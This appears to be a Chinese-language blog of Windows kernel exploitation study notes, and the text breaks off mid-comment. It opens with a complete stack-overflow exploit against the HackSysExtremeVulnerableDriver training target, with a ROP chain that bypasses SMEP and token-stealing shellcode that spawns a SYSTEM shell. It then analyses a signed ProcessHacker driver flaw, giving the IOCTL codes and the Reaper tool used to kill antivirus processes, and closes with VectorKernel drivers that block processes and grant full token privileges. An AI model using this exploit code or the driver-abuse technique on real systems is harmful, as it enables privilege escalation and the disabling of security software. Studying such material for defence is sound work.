fffff88b`53f177c8 43 72 36 43 72 37 43 72-38 43 72 39 00 00 00 00 Cr6Cr7Cr8Cr9....
fffff88b`53f177d8 18 00 00 00 00 00 00 00-01 00 00 00 00 00 00 00 ................
fffff88b`53f177e8 53 52 42 85 04 f8 ff ff-10 15 5b 6c 85 a4 ff 7f SRB.......[l....
fffff88b`53f177f8 ff ff ff ff 00 00 00 00-d0 82 42 85 04 f8 ff ff ..........B.....
fffff88b`53f17808 03 20 22 00 00 00 00 00-c0 70 5b 6c 85 a4 ff ff . "......p[l....
fffff88b`53f17818 79 8f 03 80 04 f8 ff ff-c0 42 52 6b 85 a4 ff ff y........BRk....
fffff88b`53f17828 02 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00 ................
┌──(root💀kali)-[~]
└─# msf-pattern_offset -q 31724330
[*] Exact match at offset 2072
由此可以知道溢出点在2072个字符后。
SMEP的干扰 Supervisor Mode Execition Prevention（SMEP）是在内核模式下的一种安全机制，不允许在某些内存空间执行代码，否则会直接蓝屏。
如何绕过 - ROP绕过 - KPTI绕过 如果系统启用了 KPTI，则恶意代码无法直接访问内核内存。但是，恶意代码仍然可以通过漏洞或其他攻击方式修改内核内存映射表。如果恶意代码成功修改了内核内存映射表，则恶意代码仍然可以访问内核内存
流程
- 使用ExAllocatePoolWithTag()分配可执行的不可分页内存池
- 使用RtlCopyMemory从用户模式复制shellcode
需要从ntoskrnl获取函数地址才可使用两个函数
- 重定向执行流
为了从随机地址空间中获取函数的地址，需要通过Psapi来枚举指定驱动的镜像基址
#include <Windows.h>
#include <Psapi.h>
...
unsigned long long get_kernel_base_addr() {
LPVOID drivers[1024];
DWORD cbNeeded;
EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded);
return (unsigned long long)drivers[0];
}
通过函数名称获取详细地址
PVOID get_kernel_symbol_addr(const char *symbol) {
PVOID kernelBaseAddr;
HMODULE userKernelHandle;
PCHAR functionAddress;
unsigned long long offset;
kernelBaseAddr = (PVOID)get_kernel_base_addr(); // 通过get_kernel_base_addr获取镜像基址
userKernelHandle = LoadLibraryA("C:\\Windows\\System32\\ntoskrnl.exe"); // 获取ntoskrnl句柄
if (userKernelHandle == INVALID_HANDLE_VALUE) {
return NULL;
}
functionAddress = (PCHAR)GetProcAddress(userKernelHandle, symbol); // 根据符号名称（函数名称）获取地址
if (functionAddress == NULL) {
return NULL;
}
offset = functionAddress - ((PCHAR)userKernelHandle); // 函数地址-ntoskrnl句柄初始地址 = 函数偏移量
return (PVOID)(((PCHAR)kernelBaseAddr) + offset); // 返回当前内存中的函数实际地址，当前镜像基址+函数偏移量
}
exp代码，提权
#include <iostream>
#include <string>
#include <Windows.h>
#include <Psapi.h>
// Name of the device
#define DEVICE_NAME "\\\\.\\HackSysExtremeVulnerableDriver"
#define IOCTL(Function) CTL_CODE(FILE_DEVICE_UNKNOWN, Function, METHOD_NEITHER, FILE_ANY_ACCESS)
//定义ROP指令
unsigned long long g_add_rsp_20h_ret = 0xa155de;
unsigned long long g_pop_rdi_pop_r14_pop_rbx_ret = 0x20a518;
unsigned long long g_xor_ecx_ecx_mov_rax_rcx_ret = 0x38cf53;
unsigned long long g_pop_rdx_ret = 0x416748;
unsigned long long g_push_rax_pop_rbx_ret = 0x20a263;
unsigned long long g_push_rax_pop_r13_ret = 0x5af724;
unsigned long long g_xchg_r8_r13_ret = 0x2c0da6;
unsigned long long g_mov_rcx_r8_mov_rax_rcx_ret = 0x93ac7a;
unsigned long long g_pop_r8_ret = 0x2017f1;
unsigned long long g_jmp_rbx = 0x408aa2;
unsigned long long kernel_ExAllocatePoolWithTag;
unsigned long long kernel_sysret = 0xa13dc0;
unsigned long long kernel_memcpy;
DWORD pid;
typedef struct sSepTokenPrivileges {
UINT8 present;
UINT8 enabled;
UINT8 enabled_by_default;
} SEP_TOKEN_PRIVILEGES;
typedef NTSTATUS(*_PsLookupProcessByProcessId)(IN HANDLE, OUT PVOID*);
_PsLookupProcessByProcessId kernel_PsLookupProcessByProcessId;
typedef PVOID(*_PsReferencePrimaryToken)(PVOID);
_PsReferencePrimaryToken kernel_PsReferencePrimaryToken;
// 枚举驱动镜像基址
unsigned long long get_kernel_base_addr() {
LPVOID drivers[1024];
DWORD cbNeeded;
EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded);
return (unsigned long long)drivers[0];
}
// 打开驱动对象，获取驱动句柄
HANDLE get_handle() {
HANDLE h = CreateFileA(DEVICE_NAME,
FILE_READ_ACCESS | FILE_WRITE_ACCESS,
FILE_SHARE_READ | FILE_SHARE_WRITE,
NULL,
OPEN_EXISTING,
FILE_FLAG_OVERLAPPED | FILE_ATTRIBUTE_NORMAL,
NULL);
if (h == INVALID_HANDLE_VALUE) {
printf("Failed to get handle =(\n");
return NULL;
}
return h;
}
// 复制ROP payload
void add_to_payload(char* in_buffer, SIZE_T* offset, unsigned long long* data, SIZE_T size)
{
memcpy(in_buffer + *offset, data, size);
printf("Wrote %lx to offset %u\n", *data, *offset);
*offset += size;
}
//获取函数的内存地址
PVOID get_kernel_symbol_addr(const char* symbol) {
PVOID kernelBaseAddr;
HMODULE userKernelHandle;
PCHAR functionAddress;
unsigned long long offset;
kernelBaseAddr = (PVOID)get_kernel_base_addr(); // Loads kernel base address
userKernelHandle = LoadLibraryA("C:\\Windows\\System32\\ntoskrnl.exe"); // Gets kernel binary
if (userKernelHandle == INVALID_HANDLE_VALUE) {
return NULL;
}
functionAddress = (PCHAR)GetProcAddress(userKernelHandle, symbol); // Finds given symbol
if (functionAddress == NULL) {
// Could not find symbol
return NULL;
}
offset = functionAddress - ((PCHAR)userKernelHandle); // Subtracts the loaded binary's base address from the found address. This way, we will find the offset of the symbol for base address 0.
return (PVOID)(((PCHAR)kernelBaseAddr) + offset); // Adds the offset to the leaked base address.
}
void adjust_offsets()
{
unsigned long long kernel_base_addr = get_kernel_base_addr();
g_xor_ecx_ecx_mov_rax_rcx_ret += kernel_base_addr;
g_pop_rdi_pop_r14_pop_rbx_ret += kernel_base_addr;
g_add_rsp_20h_ret += kernel_base_addr;
g_pop_rdx_ret += kernel_base_addr;
g_push_rax_pop_rbx_ret += kernel_base_addr;
g_push_rax_pop_r13_ret += kernel_base_addr;
g_xchg_r8_r13_ret += kernel_base_addr;
g_mov_rcx_r8_mov_rax_rcx_ret += kernel_base_addr;
g_pop_r8_ret += kernel_base_addr;
g_jmp_rbx += kernel_base_addr;
kernel_sysret += kernel_base_addr;
kernel_ExAllocatePoolWithTag = (unsigned long long) get_kernel_symbol_addr("ExAllocatePoolWithTag");
kernel_memcpy = (unsigned long long) get_kernel_symbol_addr("memcpy");
kernel_PsLookupProcessByProcessId = (_PsLookupProcessByProcessId)get_kernel_symbol_addr("PsLookupProcessByProcessId");
kernel_PsReferencePrimaryToken = (_PsReferencePrimaryToken)get_kernel_symbol_addr("PsReferencePrimaryToken");
printf("Primary token: %xu \n", (ULONGLONG)kernel_PsReferencePrimaryToken - kernel_base_addr);
printf("PsReferencePrimaryToken base addr: %xu\n", (ULONGLONG)kernel_PsReferencePrimaryToken - (ULONGLONG)kernel_base_addr);
}
DWORD spawnCmd() {
STARTUPINFO si;
PROCESS_INFORMATION pi;
wchar_t cmd[] = L"C:\\Windows\\System32\\cmd.exe";
ZeroMemory(&si, sizeof(si));
si.cb = sizeof(si);
ZeroMemory(&pi, sizeof(pi));
// Start the child process.
if (!CreateProcessW(NULL, // No module name (use command line)
cmd, // Command line
NULL, // Process handle not inheritable
NULL, // Thread handle not inheritable
FALSE, // Set handle inheritance to FALSE
CREATE_NEW_CONSOLE, // No creation flags
NULL, // Use parent's environment block
NULL, // Use parent's starting directory
&si, // Pointer to STARTUPINFO structure
&pi) // Pointer to PROCESS_INFORMATION structure
)
{
printf("CreateProcess failed (%d).\n", GetLastError());
return -1;
}
return pi.dwProcessId;
}
//执行ROP代码后返回用户空间的shellcode，否则系统会蓝屏
char* generate_shellcode() {
char* shellcode = (char*)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, 0x4e + 11);
memcpy(shellcode, "\x48\xc7\xc1\x78\x56\x34\x12\x48\x83\xec\x08\x48\x89\xe2\x48\xbb\x00\x00\x00\x00\xff\xff\xff\xff\xff\xd3\x48\x8b\x0c\x24\x48\xbb\x10\x32\x34\x12\xff\xff\xff\xff\xff\xd3\x48\x83\xc0\x40\x48\xb9\xfc\xff\xff\xff\x00\x00\x00\x00\x48\x89\x08\x48\x83\xc0\x08\x48\x89\x08\x48\x83\xc0\x08\x48\x89\x08\x48\x83\xc4\x08\x48\xBB\xC0\x0D\x02\x1B\x05\xF8\xFF\xFF\xFF\xE3", 0x4e + 11);
memcpy(shellcode + 3, &pid, 4);
memcpy(shellcode + 16, &kernel_PsLookupProcessByProcessId, 8);
memcpy(shellcode + 32, &kernel_PsReferencePrimaryToken, 8);
memcpy(shellcode + 0x4e + 1, &kernel_sysret, 8);
return shellcode;
}
//Does everything
void do_buffer_overflow(HANDLE h)
{
SIZE_T in_buffer_size = 2072 + 8 * 15 + 0x20;
PULONG in_buffer = (PULONG)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, in_buffer_size);
memset((char*)in_buffer, 'A', in_buffer_size);
SIZE_T offset = 2072;
pid = spawnCmd();
adjust_offsets();
char* shellcode = generate_shellcode();
unsigned long long size_of_copy = 0x4e + 11;
add_to_payload((char*)in_buffer, &offset, &g_xor_ecx_ecx_mov_rax_rcx_ret, 8);
add_to_payload((char*)in_buffer, &offset, &g_pop_rdx_ret, 8);
add_to_payload((char*)in_buffer, &offset, &size_of_copy, 8);
add_to_payload((char*)in_buffer, &offset, &kernel_ExAllocatePoolWithTag, 8);
add_to_payload((char*)in_buffer, &offset, &g_add_rsp_20h_ret, 8);
offset += 0x20;
add_to_payload((char*)in_buffer, &offset, &g_push_rax_pop_rbx_ret, 8);
add_to_payload((char*)in_buffer, &offset, &g_push_rax_pop_r13_ret, 8);
add_to_payload((char*)in_buffer, &offset, &g_xchg_r8_r13_ret, 8);
add_to_payload((char*)in_buffer, &offset, &g_mov_rcx_r8_mov_rax_rcx_ret, 8);
add_to_payload((char*)in_buffer, &offset, &g_pop_rdx_ret, 8);
add_to_payload((char*)in_buffer, &offset, (unsigned long long*)(&shellcode), 8);
add_to_payload((char*)in_buffer, &offset, &g_pop_r8_ret, 8);
add_to_payload((char*)in_buffer, &offset, &size_of_copy, 8);
add_to_payload((char*)in_buffer, &offset, &kernel_memcpy, 8);
add_to_payload((char*)in_buffer, &offset, &g_jmp_rbx, 8);
system("pause");
printf("Sending buffer.\n");
bool result = DeviceIoControl(h, STACK_OVERFLOW_IOCTL_NUMBER, in_buffer, (DWORD)in_buffer_size, NULL, 0, NULL, NULL);
if (!result)
{
printf("IOCTL Failed: %X\n", GetLastError());
}
//Frees allocated memory
HeapFree(GetProcessHeap(), 0, (LPVOID)in_buffer);
}
int main(int argc, char** argv)
{
do_buffer_overflow(get_handle());
system("pause");
}
ProcessHacker驱动漏洞分析
介绍
ProcessHacker的2.8.0.0版本的驱动程序kprocesshacker.sys存在漏洞，该驱动是数字签名的，利用驱动漏洞可以在R0下结束进程、暂停进程，且可结束自我防护不严格的杀毒软件。
目的
以漏洞利用工具入手，分析漏洞点以增强知识理解和调试熟练度
寻找漏洞点
先检验一下ProcessHacker能否杀火绒
火绒直接被杀了且没有重新启动
既然是结束进程，可能用到了ZwTerminateProcess。
也有其他使用非公开内核函数的方法来结束进程，但一般正常的工具应该不会那样做。
为了证实这一点，可以调试一下结束进程操作是否真的调用了ZwTerminateProcess.
在kprocesshacker和ntdll!ZwTerminateProcess处下断点，当使用ProcessHacker结束进程时，成功断在ZwTerminateProcess函数调用处
没有符号表，需要静态分析出函数的位置，找出驱动中函数偏移量. 由于我没有找到2.8.0.0版本驱动的ProcessHacker的文件，用的是其他版本进行调试。 当我尝试用其他版本的exe加载2.8.0.0的sys文件时，虽然exe可以正常使用，但是经过调试后发现sys文件似乎没有被正确调用，因为ProcessHacker用的自己而不是驱动来调用ZwTerminateProcess。看来exe和sys是配对的
下断点bp kprocesshacker+0x68f1
来找一下kprocesshacker.sys结束进程的内核级别函数ZwTerminateProcess
搜索ZwTerminateProcess可以看到被函数FUN_00017e78调用了，那么FUN_00017e78是不是造成漏洞的主要原因呢
在看FUN_00017e78的反汇编之前先看看ZwTerminateProcess函数原型
ZwTerminateProcess接受2个参数，第一个是进程的句柄，第二个是进程的退出状态。简单粗暴
NTSTATUS ZwTerminateProcess(
_In_ HANDLE ProcessHandle,
_In_ NTSTATUS ExitStatus
);
如果是结束进程可以被控制，那想必第一个参数ProcessHandle肯定可以被控制。
FUN_00017e78函数反汇编如下
ulonglong FUN_00017e78(undefined8 param_1,undefined4 param_2,undefined param_3)
{
longlong lVar1;
uint uVar2;
ulonglong uVar3;
longlong lVar4;
code *pcVar5;
longlong local_res20;
ulonglong uVar6;
undefined8 local_18 [2];
uVar6 = 0;
uVar3 = ObReferenceObjectByHandle
(param_1,0,*(undefined8 *)PsProcessType_exref,param_3,&local_res20,0);
if ((int)uVar3 < 0) {
return uVar3;
}
lVar4 = IoGetCurrentProcess();
lVar1 = local_res20;
if (local_res20 == lVar4) {
uVar3 = 0xc00000db;
}
else {
if ((DAT_00014334 == 0) && (pcVar5 = (code *)FUN_00011bac(&DAT_000141c0), pcVar5 != (code *)0x0)
) {
uVar2 = (*pcVar5)(lVar1,param_2);
uVar3 = (ulonglong)uVar2;
if (uVar2 != 0xc00000bb) goto LAB_00017f58;
}
uVar2 = ObOpenObjectByPointer
(local_res20,0x200,0,1,*(undefined8 *)PsProcessType_exref,
uVar6 & 0xffffffffffffff00,local_18);
uVar3 = (ulonglong)uVar2;
if (-1 < (int)uVar2) {
uVar2 = ZwTerminateProcess(local_18[0],param_2);
uVar3 = (ulonglong)uVar2;
ZwClose(local_18[0]);
}
}
LAB_00017f58:
ObfDereferenceObject(local_res20);
return uVar3;
}
代码读得头昏脑胀？没关系，这种事情可以交给GPT。
简而言之，FUN_00017e78将第一个参数传入了ObReferenceObjectByHandle，该函数是打开进程对象，并返回一个句柄。ObReferenceObjectByHandle将返回的句柄存到了local_18数组的第一个元素。而ZwTerminateProcess接受local_18的第一个元素作为结束的进程句柄传入。
所以只需要控制FUN_00017e78函数的第一个参数就可以利用驱动直接结束进程。
知道了漏洞原因，再来看看利用工具是怎么实现的。
利用工具分析
https://github.com/MrEmpy/Reaper 工具几个函数如图 主要功能函数包括加载驱动、卸载驱动、暂停进程、结束进程。
来试一下工具的效果吧！ 如下图杀了火绒2个进程，火绒已经被杀没了。 这个工具每次结束一个进程都会停止驱动，火绒存在多个进程，若要实战需要改一下程序。 总而言之，这是可以正确地杀死火绒的。
来用windbg跟一下。 首先在2.8.0.0版本的sys找到函数偏移量 下断点
执行reaper成功在函数处断下,rcx是进程句柄，rdx是退出状态
这个工具首先使用DeployDriver加载sys驱动并设置对象路径\\.\KProcessHacker2, 然后通过指定的PID使用OpenProcess获取要操作的进程句柄。
而最核心的在于这两行相应功能的IOCTL编号，这也是漏洞存在的点
#define IOCTL_CODE_KILLPROCESS 0x999920df
#define IOCTL_CODE_SUSPENDPROC 0x999920d7
接着通过DeviceIoControl函数操作驱动对象，往相应的IOCTL发送了ioInput结构体，这个结构体包含进程句柄和退出状态。也正是ZwTerminateProcess所接收的参数。
最后利用驱动的功能，执行了我们想要的结果。
尾声
关于漏洞点，也就是IOCTL编号为什么是这个，还需要进一步研究。
VectorKernel工具学习
互联网冲浪时发现的一个项目，作者写了含多个自定义功能的sys驱动，并用C#程序调用驱动。 来看看这个工具。 项目地址 https://github.com/daem0nc0re/VectorKernel
BlockNewProc
阻止创建新进程
先创建一个驱动服务
sc create BlockNewProc binPath= C:\Users\admin\Desktop\VectorKernel\BlockNewProcClient type= kernel
禁用了notepad.exe，notepad已经不能启动了
取消禁用，又可以启动了
看看sys代码是怎么实现的。
驱动主函数DriverEntry。
NTSTATUS DriverEntry(
_In_ PDRIVER_OBJECT DriverObject,
_In_ PUNICODE_STRING RegistryPath)
{
//各种初始化，仅支持64位系统
UNREFERENCED_PARAMETER(RegistryPath);
NTSTATUS ntstatus = STATUS_FAILED_DRIVER_ENTRY;
PDEVICE_OBJECT pDeviceObject = nullptr;
#ifndef _WIN64
KdPrint((DRIVER_PREFIX "32bit OS is not supported.\n"));
return STATUS_NOT_SUPPORTED;
#endif
do
{
UNICODE_STRING devicePath = RTL_CONSTANT_STRING(DEVICE_PATH);
UNICODE_STRING symlinkPath = RTL_CONSTANT_STRING(SYMLINK_PATH);
//互斥锁
::ExInitializeFastMutex(&g_FastMutex);
//创建驱动
ntstatus = ::IoCreateDevice(
DriverObject,
NULL,
&devicePath,
FILE_DEVICE_UNKNOWN,
NULL,
FALSE,
&pDeviceObject);
if (!NT_SUCCESS(ntstatus))
{
pDeviceObject = nullptr;
KdPrint((DRIVER_PREFIX "Failed to create device (NTSTATUS = 0x%08X).\n", ntstatus));
break;
}
//创建符号链接
ntstatus = ::IoCreateSymbolicLink(&symlinkPath, &devicePath);
if (!NT_SUCCESS(ntstatus))
{
KdPrint((DRIVER_PREFIX "Failed to create symbolic link (NTSTATUS = 0x%08X).\n", ntstatus));
break;
}
//驱动注册
//设置major功能处理程序。
//major 功能处理程序是驱动程序处理 IRP 请求的函数。IRP请求需要用到这个函数。
// I/O 请求有不同的类型，每个类型都有一个对应的 major 功能
//将驱动卸载程序设置为DriverUnload函数
DriverObject->DriverUnload = DriverUnload;
//设置创建设备的IRP请求函数为OnCreateClose
DriverObject->MajorFunction[IRP_MJ_CREATE] = OnCreateClose;
//设置关闭设备的IRP请求函数为OnCreateClose
DriverObject->MajorFunction[IRP_MJ_CLOSE] = OnCreateClose;
//设置处理设备控制的IRP请求函数为OnDeviceControl
DriverObject->MajorFunction[IRP_MJ_DEVICE_CONTROL] = OnDeviceControl;
KdPrint((DRIVER_PREFIX "Driver is loaded successfully.\n"));
} while (false);
if (!NT_SUCCESS(ntstatus) && (pDeviceObject != nullptr))
::IoDeleteDevice(pDeviceObject);
return ntstatus;
}
驱动卸载程序函数DriverUnload
void DriverUnload(_In_ PDRIVER_OBJECT DriverObject)
{
UNICODE_STRING symlinkPath = RTL_CONSTANT_STRING(SYMLINK_PATH);
::IoDeleteSymbolicLink(&symlinkPath); //删除符号链接
::IoDeleteDevice(DriverObject->DeviceObject); //删除设备对象
//如果存在Callback函数，则注销
if (g_CallbackRegistered)
{
::PsSetCreateProcessNotifyRoutineEx2(
PsCreateProcessNotifySubsystems,
(PVOID)ProcessBlockRoutine,
TRUE);
}
KdPrint((DRIVER_PREFIX "Driver is unloaded.\n"));
}
创建和关闭设备函数OnCreateClose。
作用是设置状态
NTSTATUS OnCreateClose(
_Inout_ PDEVICE_OBJECT DeviceObject,
_Inout_ PIRP Irp)
{
UNREFERENCED_PARAMETER(DeviceObject);
NTSTATUS ntstatus = STATUS_SUCCESS;
Irp->IoStatus.Status = ntstatus;
Irp->IoStatus.Information = 0u;
IoCompleteRequest(Irp, 0);
return ntstatus;
}
控制函数
NTSTATUS OnDeviceControl(
_Inout_ PDEVICE_OBJECT DeviceObject,
_Inout_ PIRP Irp)
{
UNREFERENCED_PARAMETER(DeviceObject);
NTSTATUS ntstatus = STATUS_INVALID_DEVICE_REQUEST;
PIO_STACK_LOCATION irpSp = ::IoGetCurrentIrpStackLocation(Irp);
auto& dic = irpSp->Parameters.DeviceIoControl;
ULONG_PTR info = NULL;
switch (dic.IoControlCode)
{
//IOCTL_SET_PROCESS_FILENAME是进制创建相应进程的代码
case IOCTL_SET_PROCESS_FILENAME:
if (dic.InputBufferLength < sizeof(BLOCK_FILENAME_INFO))
{
ntstatus = STATUS_BUFFER_TOO_SMALL;
break;
}
//获取互斥锁
::ExAcquireFastMutex(&g_FastMutex);
//这里获取传入的文件名保存到g_ImageFileNameSuffix[]
::memset(g_ImageFileNameSuffix, 0, sizeof(WCHAR) * 258);
g_ImageFileNameSuffix[0] = L'\\';
::memcpy(&g_ImageFileNameSuffix[1], Irp->AssociatedIrp.SystemBuffer, sizeof(BLOCK_FILENAME_INFO));
g_ImageFileNameSuffix[257] = L'\0';
KdPrint((DRIVER_PREFIX "Target ImageFileName pattern is updated to \"%ws\".\n", &g_ImageFileNameSuffix));
//注册callback函数PsSetCreateProcessNotifyRoutineEx2，执行ProcessBlockRoutine锁进程创建的函数
if (!g_CallbackRegistered)
{
ntstatus = ::PsSetCreateProcessNotifyRoutineEx2(
PsCreateProcessNotifySubsystems,
(PVOID)ProcessBlockRoutine,
FALSE);
if (!NT_SUCCESS(ntstatus))
{
KdPrint((DRIVER_PREFIX "Failed to register Process Notify Routine (NTSTATUS = 0x%08X).", ntstatus));
break;
}
else
{
g_CallbackRegistered = TRUE;
KdPrint((DRIVER_PREFIX "Process Notify Callback is registered successfully.\n"));
}
}
//释放互斥锁
::ExReleaseFastMutex(&g_FastMutex);
info = ::wcslen(g_ImageFileNameSuffix) * sizeof(WCHAR);
ntstatus = STATUS_SUCCESS;
break;
//IOCTL_UNREGISTER_CALLBACK分支是释放回调函数
case IOCTL_UNREGISTER_CALLBACK:
::ExAcquireFastMutex(&g_FastMutex);
if (g_CallbackRegistered)
{
::memset(g_ImageFileNameSuffix, 0, sizeof(WCHAR) * 258);
ntstatus = ::PsSetCreateProcessNotifyRoutineEx2(
PsCreateProcessNotifySubsystems,
(PVOID)ProcessBlockRoutine,
TRUE);
if (!NT_SUCCESS(ntstatus))
{
KdPrint((DRIVER_PREFIX "Failed to unregister Process Notify Callback (NTSTATUS = 0x%08X).\n", ntstatus));
}
else
{
g_CallbackRegistered = FALSE;
KdPrint((DRIVER_PREFIX "Process Notify Callback is unregistered successfully.\n"));
}
}
else
{
KdPrint((DRIVER_PREFIX "Process Notify Callback is not registered.\n"));
}
::ExReleaseFastMutex(&g_FastMutex);
}
//完成IRP请求
Irp->IoStatus.Status = ntstatus;
Irp->IoStatus.Information = info;
IoCompleteRequest(Irp, 0);
return ntstatus;
}
这样看来是通过设置了一个控制的回调函数来实现禁止进程创建的。
ProcessBlockRoutine函数
实现功能逻辑就是
CreateInfo->CreationStatus = STATUS_ACCESS_DENIED
将CreateInfo的CreationStatus设置为STATUS_ACCESS_DENIED
void ProcessBlockRoutine(
_Inout_ PEPROCESS Process,
_In_ HANDLE ProcessId,
_Inout_opt_ PPS_CREATE_NOTIFY_INFO CreateInfo)
{
UNREFERENCED_PARAMETER(Process);
UNREFERENCED_PARAMETER(ProcessId);
if (CreateInfo != nullptr)
{
::ExAcquireFastMutex(&g_FastMutex);
if (::wcslen(g_ImageFileNameSuffix) > 0)
{
UNICODE_STRING suffix{ 0 };
::RtlInitUnicodeString(&suffix, g_ImageFileNameSuffix);
if (::RtlSuffixUnicodeString(&suffix, (PUNICODE_STRING)CreateInfo->ImageFileName, TRUE))
{
CreateInfo->CreationStatus = STATUS_ACCESS_DENIED;
KdPrint((DRIVER_PREFIX "Blocked Process: %wZ\n", (PUNICODE_STRING)CreateInfo->ImageFileName));
}
else
{
KdPrint((DRIVER_PREFIX "Allowed Process: %wZ\n", (PUNICODE_STRING)CreateInfo->ImageFileName));
}
}
else
{
KdPrint((DRIVER_PREFIX "Allowed Process: %wZ\n", (PUNICODE_STRING)CreateInfo->ImageFileName));
}
::ExReleaseFastMutex(&g_FastMutex);
}
}
CreateInfo结构体
typedef struct _PPS_CREATE_NOTIFY_INFO
{
UNICODE_STRING ImageFileName; //成员包含新进程的映像文件名。该成员是一个 `UNICODE_STRING` 结构，包含文件名的字符串和长度
UNICODE_STRING ProcessName; //成员包含新进程的主模块名。该成员也是一个 `UNICODE_STRING` 结构
HANDLE ProcessId; //成员包含新进程的句柄。该成员是一个 `HANDLE` 类型
NTSTATUS CreationStatus; //成员包含新进程的创建状态。该成员是一个 `NTSTATUS` 类型。
} PPS_CREATE_NOTIFY_INFO;
CreationStatus是一个NTSTATUS值，将值定义成错误类型的值就可以阻止进程创建。
微软定义的所有NTSTATUS值可在ntstatus.h找到。
由于定义的是STATUS_ACCESS_DENIED，所以系统出现的拒绝访问弹窗，改成其他状态又会是另一种弹窗或是无弹窗。
但这些都不重要，重要的是错误状态阻止了进程的创建。
用windbg调试一下驱动，在BlockNewProcDrv_x64驱动中可找到_PPS_CREATE_NOTIFY_INFO结构体
在ProcessBlockRoutine函数调用前下断点，可以看到当前传入的变量
GetFullPrivs
这个功能可以提权到system
添加服务
sc create GetFullPrivs binPath= C:\Users\admin\Desktop\GetFullPrivsDrv.sys type= kernel
sc start GetFullPrivs
以system开启了cmd
重复的加载驱动卸载驱动就不看了，直接看看功能不同的地方。
初始化
do
{
RTL_OSVERSIONINFOW versionInfo{ 0 };
UNICODE_STRING devicePath = RTL_CONSTANT_STRING(DEVICE_PATH);
UNICODE_STRING symlinkPath = RTL_CONSTANT_STRING(SYMLINK_PATH);
ntstatus = ::RtlGetVersion(&versionInfo); //使用RtlGetVersion获取系统版本信息，结果返回给versionInfo结构体
if (!NT_SUCCESS(ntstatus)) //版本获取失败的处理
{
KdPrint((DRIVER_PREFIX "Failed to get OS version information (NTSTATUS = 0x%08X).\n", ntstatus));
break;
}
else //获取成功打印获取的版本信息
{
KdPrint((DRIVER_PREFIX "OS Version - %u.%u.%u\n",
versionInfo.dwMajorVersion,
versionInfo.dwMinorVersion,
versionInfo.dwBuildNumber));
// _SEP_TOKEN_PRIVILEGES was introduced since Windows Vista
//根据不同系统版本版本设定值
//https://learn.microsoft.com/zh-cn/windows-hardware/drivers/ddi/wdm/ns-wdm-_osversioninfoexw
if ((versionInfo.dwMajorVersion == 6))
{
if (versionInfo.dwMinorVersion < 2)
{
// From Windows Vista to Windows 7 SP1
g_PrivilegesOffset = 0x40u;
g_UserAndGroupCountOffset = 0x78u;
g_UserAndGroupsOffset = 0x90u;
g_TokenFlagsOffset = 0xC0u;
g_IntegrityLevelIndexOffset = 0xC8u;
}
else
{
// From Windows 8 to Windows 8.1
g_PrivilegesOffset = 0x40u;
g_UserAndGroupCountOffset = 0x7Cu;
g_UserAndGroupsOffset = 0x98u;
g_TokenFlagsOffset = 0xC8u;
g_IntegrityLevelIndexOffset = 0xD0u;
}
}
else if (versionInfo.dwMajorVersion == 10)
{
// From Windows 10 1509 to Windows 11 23H2
g_PrivilegesOffset = 0x40u;
g_UserAndGroupCountOffset = 0x7Cu;
g_UserAndGroupsOffset = 0x98u;
g_TokenFlagsOffset = 0xC8u;
g_IntegrityLevelIndexOffset = 0xD0u;
}
else
{
// Older than Windows Vista does not have _SEP_TOKEN_PRIVILEGE
ntstatus = STATUS_NOT_SUPPORTED;
KdPrint((DRIVER_PREFIX "Unsupported OS version is detected.\n"));
break;
}
}
ntstatus = ::IoCreateDevice(
DriverObject,
NULL,
&devicePath,
FILE_DEVICE_UNKNOWN,
NULL,
FALSE,
&pDeviceObject);
if (!NT_SUCCESS(ntstatus))
{
pDeviceObject = nullptr;
KdPrint((DRIVER_PREFIX "Failed to create device (NTSTATUS = 0x%08X).\n", ntstatus));
break;
}
//符号创建成功时
ntstatus = ::IoCreateSymbolicLink(&symlinkPath, &devicePath);
if (!NT_SUCCESS(ntstatus))
{
KdPrint((DRIVER_PREFIX "Failed to create symbolic link (NTSTATUS = 0x%08X).\n", ntstatus));
break;
}
//设定驱动的各种操作函数
DriverObject->DriverUnload = DriverUnload;
DriverObject->MajorFunction[IRP_MJ_CREATE] = OnCreateClose;
DriverObject->MajorFunction[IRP_MJ_CLOSE] = OnCreateClose;
DriverObject->MajorFunction[IRP_MJ_DEVICE_CONTROL] = OnDeviceControl;
KdPrint((DRIVER_PREFIX "Driver is loaded successfully.\n"));
} while (false);
if (!NT_SUCCESS(ntstatus) && (pDeviceObject != nullptr))
::IoDeleteDevice(pDeviceObject);
return ntstatus;
}
核心功能块
代码分段1
PEPROCESS pEprocess = nullptr;
auto pid = ::ULongToHandle(*(ULONG*)Irp->AssociatedIrp.SystemBuffer);
ntstatus = ::PsLookupProcessByProcessId(pid, &pEprocess);
初始化pEprocess结构体，将请求的进程转换为handle，使用PsLookupProcessByProcessId查询指定PID的pEprocess存到ntstatus
_KPROCESS和_eprocess是存储进程信息的结构体，分别表示内核模式下和用户模式下的进程信息。
wwindbg调试
查找指定进程的_eprocess地址
1: kd> !process 1be0 0
Searching for Process with Cid == 1be0
PROCESS ffff8f0f4d1ab080
SessionId: 1 Cid: 1be0 Peb: 02768000 ParentCid: 04ac
DirBase: 496ad000 ObjectTable: ffff9f07935a1a00 HandleCount: 94.
Image: cmd.exe
代码分段2
PACCESS_TOKEN pPrimaryToken = ::PsReferencePrimaryToken(pEprocess);
//根据eprocess获取PrimaryToken地址，即_token结构体
auto pSepToken = (PSEP_TOKEN_PRIVILEGES)((ULONG_PTR)pPrimaryToken + g_PrivilegesOffset);
//根据token获取Privileges
auto nUserAndGroupCount = *(ULONG*)((ULONG_PTR)pPrimaryToken + g_UserAndGroupCountOffset);
//根据token获取UserAndGroupCount
auto pUserAndGroups = *(PSID_AND_ATTRIBUTES*)((ULONG_PTR)pPrimaryToken + g_UserAndGroupsOffset);
//根据token获取UserAndGroups
auto nIntegrityLevelIndex = *(ULONG*)((ULONG_PTR)pPrimaryToken + g_IntegrityLevelIndexOffset);`
//根据token获取IntegrityLevelIndex
//修改令牌权限
pSepToken->Present = VALID_PRIVILEGE_MASK; //Present指示哪些特权在令牌中存在
pSepToken->Enabled = VALID_PRIVILEGE_MASK; //Enabled指示哪些特权被激活，进程可自定义
pSepToken->EnabledByDefault = VALID_PRIVILEGE_MASK; //EnabledByDefault指示哪些特权默认被激活，进程无需定义可直接使用
//修改`SID`结构体的`SubAuthority`第一个元素为`0x4000`
